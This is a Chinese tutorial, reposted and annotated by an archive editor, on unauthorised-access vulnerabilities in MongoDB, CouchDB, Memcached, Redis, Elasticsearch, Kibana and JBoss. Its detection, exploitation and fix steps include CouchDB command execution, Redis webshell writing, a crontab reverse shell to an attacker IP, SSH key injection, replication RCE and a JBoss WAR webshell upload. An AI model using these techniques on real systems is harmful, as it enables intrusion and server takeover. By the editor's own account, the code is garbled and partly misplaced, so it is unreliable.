# 从零开始学习各种常见未授权访问漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：多组件未认证配置教程（MongoDB至宝塔）
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：MongoDB未认证不等于默认公网，db.addUser古旧格式不符，nohttpinterface=false与禁用目标反；Redis cron只能CentOS过绝对，SSH条件/etc/.ssh错为root家目录、AuthorizedKeyFiles拼写错且缺最终save，phpinfo不是交互webshell；Elasticsearch修复http.basic.*是特定插件并非内置且YAML无冒号，Kibana设ES后端URL不等于绑Kibana监听地址，反向代理若原5601仍可达就绕过认证
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与275/279不是同文，内容及图片来源不同、额外多产品应保留独立
2. 代码系统性转义下划线/星号/方括号、弯引号、长横线替代双短横、Python丢缩进/import，不能直接使用
3. 多处跨章节代码错位：rsync末尾是YARN PoC、Hadoop PoC是ZooKeeper安装、ZooKeeper末尾是Docker命令、Docker cron内是LDAP脚本、LDAP检测是编辑NFS exports，严重破坏复现
4. MongoDB未认证不等于默认公网，db.addUser古旧格式不符，nohttpinterface=false与禁用目标反
5. Redis示例主动关protected-mode/注释bind不应说默认暴露，bind限制监听目的地址不是客户端来源IP
6. Redis cron只能CentOS过绝对，SSH条件/etc/.ssh错为root家目录、AuthorizedKeyFiles拼写错且缺最终save，phpinfo不是交互webshell
7. Elasticsearch修复http.basic.*是特定插件并非内置且YAML无冒号，Kibana设ES后端URL不等于绑Kibana监听地址，反向代理若原5601仍可达就绕过认证
8. Jupyter未设密码可能仍有默认token，端口/首页/统计可读不证明所有敏感接口无授权
9. rsync端口837应873，传输方向/小节代码错位，修改端口/隐藏模块不是认证
10. Docker1.3/1.6不是该配置风险范围、容器并非无任何共享接口，rootless/安全策略及宿主写权限条件省略
11. ActiveMQ用5254环境却展示fileserver PUT/MOVE应核对3088，不把默认弱口令当无需认证
12. NFS标题NSF/包名serve缺r、root_squash/导出来源控制需要明确，宝塔PMA删除需确认部署备份，官方修复版本缺
13. 高危持久写入/复制/账号密钥修改缺清理恢复与隔离，参考多数二手汇总

### 操作风险

高危持久写入/复制/账号密钥修改缺清理恢复与隔离，参考多数二手汇总

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/eeTfC6x7wv5cwjIruzvs1w>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/eeTfC6x7wv5cwjIruzvs1w)

前言
--

未授权访问是系统对用户限制不全，或者无限制，可以让任意用户或者限制访问用户，访问到需要权限认证的地址。未授权访问通常是会泄露用户信息，系统信息。某些服务和系统中，未授权访问还可以执行系统命令，操作系统文件，导致系统的整体安全遭到破坏。

本片文章主要是在网上现有文章的基础上，结合自己的经验，进行总结、增补，以保证之前没接触过该应用的师傅不用去检索其他资料也可以看懂。

MongoDB 未授权访问漏洞
---------------

### 漏洞简介

MongoDB 是一个基于分布式文件存储的数据库，由 C++ 语言编写，旨在为 WEB 应用提供可扩展的高性能数据存储解决方案。MongoDB 默认端口为 **27017**。

开启 MongoDB 服务时不添加任何参数时, 默认是没有权限验证的, 登录的用户可以通过默认端口无需密码对数据库任意操作（增、删、改、查高危动作）而且可以远程访问数据库。

造成未授权访问的根本原因就在于启动 Mongodb 的时候未设置 —auth 也很少会有人会给数据库添加上账号密码（默认空口令），使用默认空口令这将导致恶意攻击者无需进行账号认证就可以登陆到数据服务器。

更多 MongoDB 的介绍请移步：https://www.runoob.com/mongodb/mongodb-tutorial.html

### 漏洞复现

#### 环境搭建

这里使用 docker。Docker 教程：https://www.runoob.com/docker/docker-tutorial.html

docker search mongodb # 从 Docker Hub 查找镜像



docker pull mongo #从镜像仓库中拉取或者更新指定镜像


docker images mongo #列出本地主机上的 mongo 镜像


docker run -d -p 27017:27017 —name mongodb mongo # 创建一个新的容器并运行一个命令


docker ps # 显示正在运行的容器


#### 漏洞检测

Python 检测脚本：

```
#! /usr/bin/env python
# \_\*\_  coding:utf-8 \_\*\_

def mongodb(ip,port):
try:
client = MongoClient(ip,port)
db=client.local
flag = db.collection\_names()
if flag:
print “\[+\] Mongodb login for anonymous”
except Exception, e:
pass
```

nmap 检测：

```
nmap -p 27017 —script mongodb-info
```



#### 漏洞利用

这里使用 NoSQLBooster

下载地址：https://s3.mongobooster.com/download/releasesv5/nosqlbooster4mongo-5.1.12.exe



### 修复方法

(1) 为 MongoDB 添加认证

① MongoDB 启动时添加 -auth 参数。

② 给 MongoDB 添加用户

```
use admin # 使用 admin 库
db.addUser“用户名” “密码”# 添加用户名、密码
db.auth“用户名”,“密码”# 验证是否添加成功返回 1 说明成功。
```

(2) 禁用 HTTP 和 REST 端口

MongoDB 自身带有一个 HTTP 服务并支持 REST 接口。在 2.6 版本以后这些接口默认关闭。MongoDB 默认会使用默认端口监听 Web 服务一般不需要通过 Web 方式进行远程管理建议禁用。修改配置文件或在启动时选择 -nohttpinterface 参数 nohttpinterface = false。

(3) 限制绑定 IP

启动时加入参数

—bind\_ip 127.0.0.1

或在 /etc/mongodb.conf 文件中添加以下内容

bind\_ip = 127.0.0.1

CouchDB 未授权访问漏洞
---------------

### 漏洞简介

CouchDB 是由 Apache 软件基金会开发的一个开源数据库。重点是易于使用，拥抱网络。它是一个 NoSQL 文档存储数据库。它使用 JSON，存储数据（文档），使用 java 脚本作为其查询语言来转换文档，使用 http 协议为 api 访问文档，使用 Web 浏览器查询索引。

CouchDB 默认在 **5984** 端口开放 Restful 的 API 接口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在 0.0.0.0，所有用户均可通过 API 访问导致未授权访问。任何连接到服务器端口上的人，都可以调用相关 API 对服务器上的数据进行任意的增删改查，其中通过 API 修改 local.ini 配置文件，可进一步导致执行任意系统命令，获取服务器权限！

更多 CouchDB 的介绍请移步：https://www.w3cschool.cn/couchdb/

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html



#### 漏洞检测

nmap -p 5984 —script couchdb-stats.nse



#### 漏洞利用

任意命令执行：

1、新增 query\_server 配置，写入要执行的命令；

```
curl -X PUT 'http://192.168.168.131:5984/\_config/query\_servers/cmd' -d '"id >/tmp/success"'
```

2、新建一个临时库和临时表，插入一条记录；

```
curl -X PUT 'http://192.168.168.131:5984/vultest'
curl -X PUT 'http://192.168.168.131:5984/vultest/vul' -d '{"\_id":"770895a97726d5ca6d70a22173005c7b"}'
```

3、调用 query\_server 处理数据

```
curl -X POST 'http://192.168.168.131:5984/vultest/\_temp\_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```



### 修复方法

1、指定 CouchDB 绑定的 IP （需要重启 CouchDB 才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind\_address = 0.0.0.0” ，把 0.0.0 修改为 127.0.0.1 ，然后保存。

2、设置访问密码 （需要重启 CouchDB 才能生效） 在 /etc/couchdb/local.ini 中找到 “\[admins\]” 字段配置密码。

Memcached 未授权访问漏洞
-----------------

### 漏洞简介

Memcached 是一个自由开源的，高性能，分布式内存对象缓存系统。Memcached 是一种基于内存的 key-value 存储，用来存储小块的任意数据（字符串、对象）。这些数据可以是数据库调用、API 调用或者是页面渲染的结果。

Memcached 简洁而强大。它的简洁设计便于快速开发，减轻开发难度，解决了大数据量缓存的很多问题。它的 API 兼容大部分流行的开发语言。一般的使用目的是，通过缓存数据库查询结果，减少数据库访问次数，以提高动态 Web 应用的速度、提高可扩展性。

由于 Memcached 的安全设计缺陷，客户端连接 Memcached 服务器后无需认证就可读取、修改服务器缓存内容。默认监听端口 11211

更多 Memcached 的介绍请移步：https://www.runoob.com/Memcached/Memcached-tutorial.html

### 漏洞复现

#### 环境搭建

64 位系统 1.4.4 版本：http://static.runoob.com/download/memcached-win64-1.4.4-14.zip

解压之后，用管理员权限打开命令行，执行：

```
memcached.exe -d install 安装
memcached.exe -d start 启动
```



查看进程服务以及端口

```
netstat -ano | findstr 11211
tasklist | findstr Memcached
```



#### 漏洞检测

Python 检测脚本：

```
#! /usr/bin/env python
# \_\*\_  coding:utf-8 \_\*\_
def Memcache\_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\\r\\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '\[+\] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
```

Nmap 检测：

```
nmap -p 11211 —script memcached-info
```



#### 漏洞利用

telnet 11211 或 nc -vv 11211

无需用户名密码，可以直接连接 memcache 服务的 11211 端口


stats #查看 memcache 服务状态



stats items // 查看所有 items

stats cachedump 32 0 // 获得缓存 key

漏洞攻击 DEMO: http://blog.nsfocus.net/memcache-unauthorized-access-exploit/

### 修复方法

1、配置 memcached 监听本地回环地址 127.0.0.1。

```
\[root@local ~\]# vim /etc/sysconfig/memcached
OPTIONS="-l 127.0.0.1"  #设置本地为监听
\[root@local ~\]# /etc/init.d/memcached restart #重启服务
```

2、当 memcached 配置为监听内网 IP 或公网 IP 时，使用主机防火墙（iptalbes、firewalld 等）和网络防火墙对 memcached 服务端口进行过滤。

Redis 未授权访问漏洞
-------------

### 漏洞简介

Redis 是一个开源的使用 ANSI C 语言编写、遵守 BSD 协议、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。它通常被称为数据结构服务器，因为值（value）可以是 字符串 (String), 哈希 (Hash), 列表 (list), sets 和 sorted sets 等类型。

Redis 的出现很大程度上弥补了 memcached 这类 Key/Value 存储的不足在部分场合可以对关系数据库起到很好的补充作用。Redis 默认情况下会绑定在 0.0.0.0:6379 这样会将 Redis 服务暴露到公网上。在没有开启认证的情况下会导致任意用户在可以访问目标服务器的情况下未经授权就访问到 Redis 以及读取 Redis 的数据。

等多 Redis 的介绍请移步：https://www.runoob.com/redis/redis-tutorial.html

### 漏洞复现

#### 环境搭建

Linux 源码安装

wget http://download.redis.io/releases/redis-6.0.8.tar.gz# 下载


tar -zxvf redis-6.0.8.tar.gz #解压



cd redis-6.0.8 # 进入 redis 目录

make #编译



执行完 make 命令后，redis-6.0.8 的 src 目录下会出现编译后的 redis 服务程序 redis-server，还有用于测试的客户端程序 redis-cli



下面启动 redis 服务：

```
\# cd src
# ./redis-server
```

注意这种方式启动 redis 使用的是默认配置。也可以通过启动参数告诉 redis 使用指定配置文件使用下面命令启动。

```
\# cd src
# ./redis-server ../redis.conf
```

redis.conf 是一个默认的配置文件。我们可以根据需要使用自己的配置文件。

当然现在我们需要每次都进入安装目录才能启动 redis 服务。现在再做如下配置：

```
cp redis-server /usr/bin/
cp redis-cli /usr/bin/      #将redis-server和redis-cli拷贝到/usr/bin目录下（这样启动redis-server和redis-cli就不用每次都进入安装目录了）
cd ..
cp redis.conf /etc/     #将redis.conf拷贝到/etc/目录下
redis-server /etc/redis.conf  # 使用/etc/目录下的redis.conf文件中的配置启动redis服务
```



Ubuntu apt 命令安装

在 Ubuntu 系统安装 Redis 可以使用以下命令:

```
sudo apt update
sudo apt install redis-server
```



启动 Redis

```
redis-server
```



查看 redis 是否启动？

```
redis-cli
```

以上命令将打开以下终端：

```
redis 127.0.0.1:6379>
```

127.0.0.1 是本机 IP ，6379 是 redis 服务端口。现在我们输入 PING 命令。


以上说明我们已经成功安装了 redis。

安装完成 redis 之后，修改配置文件 redis.conf：

```
bid 127.0.0.1前面加上#号注释掉
protected-mode设为no
```

#### 漏洞检测

Nmap 检测：

```
nmap -p 6379 —script redis-info
```



#### 漏洞利用

Redis 未授权访问漏洞有多种利用方法，具体请看：https://www.freebuf.com/articles/network/158065.html

这里仅复现其中的一部分。

0x01 绝对路径写入 webshell

通过 redis 在指定的 web 目录下写入一句话木马，用菜刀连接可达到控制服务器的目的。

利用条件：

1、目标存在 web 目录

2、已知 web 绝对路径

3、存在写入权限

适用范围：windows，linux 版本。

利用过程：

利用 redis 写入一个 webshell 到目标 web 目录下:

```
config set dir "/var/www/html"
config set dbfilename phpinfo.php
set x "\\r\\n\\r\\n<?php phpinfo();?>\\r\\n\\r\\n"
save
```


\\r\\n\\r\\n 代表换行的意思，用 redis 入的文件会自带一些版本信息，如果不换行可能会导致无法执行。



写入成功



（将写入内容换成 php 一句话即可 getshell）

0x02 在 crontab 里写定时任务，反弹 shell

利用条件：

权限可写计划任务

使用范围：centos

只能在 centos 下反弹，这是由于 redis 向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos 会忽略乱码去执行格式正确的任务计划，而 ubuntu 并不会忽略这些乱码，所以导致命令执行失败

利用过程：

在权限足够的情况下，利用 redis 写入文件到计划任务目录下执行。

首先监听端口。

```
nc -lvvp 8769
```

利用 redis 生成计划任务配置文件。

```
config set dir /var/spool/cron
set x "\\n\\n\*/1 \* \* \* \* /bin/bash -i>&/dev/tcp/xxx.xxx.xxx.xxx/8769 0>&1\\n\\n"
config set dbfilename root
save
```

每一分钟执行一次，只有目标主机是 centos 才可以成功接收到反弹的 shell。

0x03 写入 ssh 公钥，获取 root 权限

使用范围：开启了密钥认证的 linux 主机

利用条件：

1、root 权限

2、开启了 ssh 密钥登录，存在 / etc/.ssh 文件

利用过程：

当 redis 以 root 身份运行，可以给 root 账户写入 SSH 公钥文件，直接通过 SSH 登录目标服务器。

1、首先在靶机上开启 ssh 密钥登录。

修改 / etc/ssh/sshd\_config 配置文件:

```
RSAAuthentication设置为yes，意思是设置开启使用RSA算法的基于rhosts的安全验证；
PubkeyAuthentication设置为yes，意思是设置开启公钥验证；
AuthorizedKeysFile后面的目录，是你上传的公钥所保存的文件。
```



然后重启服务

```
systemctl restart sshd.service
```

2、生成密钥

在攻击机中使用自带的命令生成一对密钥。

```
ssh-keygen -t rsa
```



3、将公钥内容导入 key.txt 文件

```
(echo -e “\\n\\n”; cat /root/.ssh/id\_rsa.pub; echo -e “\\n\\n”) > key.txt
```


4、将生成的公钥内容设置给 redis 里的变量

```
cat /root/key.txt | redis-cli -h 192.168.168.133 -x set xxx
```


5、在 /root/.ssh 目录下生成 authorized\_keys 文件。

```
redis-cli -h 192.168.168.133
config set dir /root/.ssh
config set dbfilename authorized\_keys
```


成功写入 authorized\_keys 文件。


6、使用本地的私钥连接 ssh

ssh 192.168.168.133


连接成功。

0x04 主从复制 RCE

在 Reids 4.x 之后，Redis 新增了模块功能，通过外部拓展，可以实现在 Redis 中实现一个新的 Redis 命令，通过写 C 语言编译并加载恶意的. so 文件，达到代码执行的目的。

通过脚本实现一键自动化 getshell：

1、生成恶意. so 文件，下载 RedisModules-ExecuteCommand 使用 make 编译即可生成。

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
```


2、攻击端执行：python redis-rce.py -r 目标 ip-p 目标端口 -L 本地 ip -f 恶意. so

```
git clone https://github.com/Ridter/redis-rce.git
cd redis-rce/
cp .. /module.so ./
pip install -r requirements.txt
python redis-rce.py -r 192.168.28.152 -p 6379 -L 192.168.28.137 -f module.so
```

\-r 参数是指目标 redis IP 地址

\-L 参数是指本机的 ip 地址

执行命令后，本机 21000 端口生成一个 redis 服务，然后目标 redis 指定本机为主服务器，同步执行 so 文件。

执行成功后可以选择生成一个交互的 shell，或者重新反弹一个 shell。



### 修复方法

（1）对 redis 访问启动密码认证。

（2）配置 bind 选项限定可以连接 Reids 服务器的 IP 并修改默认端口 6379。

ElasticSearch 未授权访问漏洞
---------------------

### 漏洞简介

Elasticsearch 是一个基于 Lucene 的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于 RESTful web 接口。Elasticsearch 是用 Java 语言开发的，并作为 Apache 许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

Elasticsearch 服务普遍存在一个未授权访问的问题，攻击者通常可以请求一个开放 9200 或 9300 端口的服务器进行恶意攻击。

更多 ElasticSearch 的介绍请移步：https://www.bootwiki.com/elasticsearch/elasticsearch-tutorial.html

### 漏洞复现

#### 环境搭建

下载安装包：https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-5.5.0.zip

解压，进入 bin 目录，双击执行 elasticsearch.bat



访问 http://localhost:9200/，出现以下页面，说明安装成功。



#### 漏洞检测

Python 检测脚本：

```
#! /usr/bin/env python
# \_\*\_  coding:utf-8 \_\*\_

import requests
def Elasticsearch\_check(ip, port=9200, timeout=5):
    try:
    　　url = "http://"+ip+":"+str(port)+"/\_cat"
    　　response = requests.get(url) 
    except:
    　　pass
    if "/\_cat/master" in response.content:
    　　print '\[+\] Elasticsearch Unauthorized: ' +ip+':'+str(port)
```

#### 漏洞利用

http://localhost:9200/\_cat/indices

http://localhost:9200/\_river/\_search // 查看数据库敏感信息

http://localhost:9200/\_nodes // 查看节点数据

如有安装 head 插件：

http://localhost:9200/\_plugin/head/ //web 管理界面



### 修复方法

1、限制 IP 访问，绑定固定 IP

2、在 config/elasticsearch.yml 中为 9200 端口设置认证：

```
http.basic.enabled true #开关，开启会接管全部HTTP连接
http.basic.user "admin" #账号
http.basic.password "admin\_pw" #密码
http.basic.ipwhitelist \["localhost", "127.0.0.1"\]
```

Kibana 未授权访问漏洞
--------------

### 漏洞简介

Kibana 是一个开源的数据分析和可视化平台，旨在与 Elasticsearch 协同工作，帮助分析师通过图形的方式来理解复杂的数据流动。

Kibana 拥有一个基于浏览器的管理界面，可实时从 Elasticsearch 中获取数据，然后执行高级数据分析，最后将结果以图表，表格和地图的形式呈现出来。

在默认设置下，Kibana 会开放在端口 5601 上。

Kibana 本身没有任何安全性设置，在默认配置下，Kibana 就可以访问 Elasticsearch 中的所有数据。

### 漏洞复现

直接访问 kibana 的页面，如：

https://192.168.168.131:5601/

http://192.168.168.131:5601/app/kibana#/

并且无需账号密码可以登录进入界面。


### 修复方法

1、设置防火墙策略，仅允许指定的 IP 来访问服务。

2、通过 nginx 设置反向代理，设置密码登录验证。

Step1、设置 kibana 监听本地地址，并设置 ElasticSearch 登录的账号和密码：

```
elasticsearch.url: "http://127.0.0.1:9200"
#这里输入ElasticSearch的账号和密码
elasticsearch.username: "user"
elasticsearch.password: "pass"
```

Step2：使用 htpasswd 创建 kibana 登录的账号密码，这里可以复用 ElasticSearch 创建的账号密码，也可以重新创建一个。

```
htpasswd -c /usr/local/service/nginx/conf/htpasswd username
```

Step3：配置 nginx 反向代理，配置好后，重启 nginx 和 kibana，通过 15601 登录验证访问 Kibana

```
server {
    # 通过反向代理对kibana身份认证
    listen 15601;
    server\_name localhost;
    location / { 
        auth\_basic "xscan";
        auth\_basic\_user\_file /usr/local/service/nginx/conf/htpasswd;

        proxy\_pass http://127.0.0.1:5601;
         }
     }
```

JBoss 未授权访问漏洞
-------------

### 漏洞简介

jBoss 是一个基于 J2EE 的开发源代码的应用服务器。JBoss 代码遵循 LGPL 许可，可以在任何商业应用中免费使用。JBoss 是一个管理 EJB 的容器和服务器，支持 EJB1.1、EJB 2.0 和 EJB3 的规范。但 JBoss 核心服务不包括支持 servlet/JSP 的 WEB 容器，一般与 Tomcat 或 Jetty 绑定使用。

默认端口: 8080,9990

默认情况下访问 http://ip:8080/jmx-console 就可以浏览 jboss 的部署管理的信息，不需要输入用户名和密码，可以直接部署上传木马有安全隐患。

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中 CVE-2017-7504 的漏洞环境。

Vulhub 的漏洞环境搭建教程参考：https://www.fujieace.com/penetration-test/vulhub.html




#### 漏洞检测

先用 nmap 扫描查看端口开放情况看是否开放 JBOSS 端口。再使用漏洞测试工具测试 jmx 组件存在情况通过访问 http://ip:jboss 端口 / 看是否能进入 jmx-console 和 web-console 。

检测工具：jexboss（https://github.com/joaomatosf/jexboss）一个使用 Python 编写的 Jboss 漏洞检测利用工具，通过它可以检测并利用 web-console，jmx-console，JMXInvokerServlet 这三个漏洞，并且可以获得一个 shell。

#### 漏洞利用

点击进入控制页



点击 jboss.deployment 进入应用部署页面



将 jsp 马打包成 war 包 jar -cvf shell.war api\_all\_jdk.jsp



将 war 包放到 web 服务器上

